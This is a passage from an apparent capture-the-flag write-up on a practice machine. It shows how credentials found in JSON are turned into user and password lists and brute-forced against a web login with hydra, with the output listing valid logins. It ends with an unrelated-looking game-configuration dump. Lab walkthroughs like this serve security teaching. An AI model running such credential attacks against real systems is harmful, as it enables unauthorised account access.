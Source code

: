 ```
{"name":"snowscan","pass":"XHq7_WJTA?QD_?E2"}
{"name":"snowscan","pass":"ze+EKe-SGF^5uZQX"}

```

#### Identify Valid Creds

With creds, I first tried SSH, but none worked. Then I tried the login form at `http://product.player2.htb`. The first one I tried didn’t work, so I decided to automate. I created username and password lists:

```

root@kali# cat creds.json | jq -r .name | sort -u > users
root@kali# cat creds.json | jq -r .pass | sort -u > passwords

```

Now I’ll run `hydra` to try all combinations of username and password. The command breaks down as:
- `-L users` - list of usernames to try
- `-P passwords` - list of passwords to try
- `product.player2.htb` - site to try
- `http-post-form` - type of brute force
- `"/:username=^USER^&password=^PASS^&Submit=Sign+in:alert"`
  - `/` - path to POST to
  - `username=^USER^&password=^PASS^&Submit=Sign+in` - POST parameters, where `^USER^` and `^PASS^` will be replaced by usernames and passwords from the respective input lists
  - `alert` - text to look for in the response that indicates failure

```

root@kali# hydra -L users -P passwords product.player2.htb http-post-form "/:username=^USER^&password=^PASS^&Submit=Sign+in:alert"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-01-20 14:31:49
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:4/p:4), ~1 try per task
[DATA] attacking http-post-form://product.player2.htb:80/:username=^USER^&password=^PASS^&Submit=Sign+in:alert
[80][http-post-form] host: product.player2.htb   login: 0xdf   password: XHq7_WJTA?QD_?E2
[80][http-post-form] host: product.player2.htb   login: mprox   password: tR@dQnwnZEk95*6#
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-01-20 14:31:50

```

So two of the username / password combinations work. When I try one manually, it does work, and I’m taken to the second stage of login.

#### Get OTP Backup Codes

One giving good creds at the username / password form, I’m given another check:

![image-20200120143539175](https://0xdfimages.gitlab.io/img/image-20200120143539175.png)


 [ Game                ]: test
 [ Contrast            ]: 1
 [ Gamma               ]: 2
 [ Resolution X-Axis   ]: 3
 [ Resolution Y-Axis   ]: 4
 [ Controller          ]: 5
 [ Size of Description ]: 10
 [ Description         ]: descript
 [ Config Index    ]: 0
  [ Game                ]: test
  [ Contrast            ]: 1
  [ Gamma               ]: 2
  [ Resolution X-Axis   ]: 3
  [ Resolution Y-Axis   ]: 4
  [ Controller          ]: 5
  [ Description         ]: descript